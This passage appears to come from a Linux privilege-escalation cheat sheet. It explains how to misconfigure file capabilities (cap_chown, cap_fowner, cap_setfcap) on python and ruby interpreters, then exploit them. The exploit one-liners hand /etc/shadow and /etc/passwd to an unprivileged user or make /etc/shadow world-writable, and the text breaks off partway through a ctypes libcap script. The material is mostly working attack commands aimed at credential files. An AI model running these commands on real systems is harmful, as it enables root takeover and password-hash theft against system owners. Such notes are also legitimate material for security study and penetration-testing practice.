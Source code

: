 ```bash
setcap cap_chown+ep /usr/bin/python3.9
```

**ruby**

```bash
setcap cap_chown+ep /usr/bin/ruby
```

#### Exploiting

**python**
- give `[ug]id` : armour
```bash
python -c 'import os;os.chown("/etc/shadow",1001,1001)'
```

```bash
python -c 'import os;os.chown("/etc/passwd",1001,1001)'
```

**ruby**

```bash
ruby -e 'require "fileutils"; FileUtils.chown(1000, 1000, "/etc/shadow")'
```

## cap_fowner

#### Misconfiguring

```bash
setcap cap_fowner+ep /usr/bin/python3.9
```

#### Exploiting

```bash
python -c 'import os;os.chmod("/etc/shadow",0o666)'
```


## cap_setfcap

#### Misconfiguring

```bash
setcap cap_setfcap+ep /usr/bin/python3.9
```

#### Exploiting

- set the library to load for setcap
```python title:setcapability.py
import ctypes
import sys

# Load the needed library (libcap.so.2)
libcap = ctypes.cdll.LoadLibrary("libcap.so.2")

# Define argument and return types for the functions we are going to use
libcap.cap_from_text.argtypes = [ctypes.c_char_p]
libcap.cap_from_text.restype = ctypes.c_void_p
libcap.cap_set_file.argtypes = [ctypes.c_char_p, ctypes.c_void_p]

# Check if path is passed as an argument
if len(sys.argv) < 2:
    print("Usage: python script.py <path_to_binary>")
    sys.exit(1)

```